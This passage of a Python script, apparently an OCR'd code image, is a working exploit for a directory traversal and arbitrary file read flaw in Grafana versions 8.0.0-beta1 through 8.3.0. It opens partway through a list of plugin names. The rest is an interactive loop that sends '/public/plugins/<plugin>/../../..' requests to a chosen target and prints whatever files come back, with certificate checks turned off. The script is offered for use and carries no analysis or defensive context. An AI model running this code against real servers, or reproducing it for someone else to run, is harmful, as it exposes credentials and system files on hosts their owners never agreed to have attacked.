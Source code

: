 ```python
    "postgres",
    "prometheus",
    "stackdriver",
    "stat",
    "state-timeline",
    "status-histor",
    "table",
    "table-old",
    "tempo",
    "testdata",
    "text",
    "timeseries",
    "welcome",
    "zipkin"
]

def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

    while True:
        file_to_read = input('Read file > ')

        try:
            url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)

            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass

def main():
    parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
    parser.add_argument('-H',dest='host',required=True, help="Target host")
    args = parser.parse_args()

    try:
        exploit(args)
    except KeyboardInterrupt:
        return


if __name__ == '__main__':
    main()
    sys.exit(0)
```
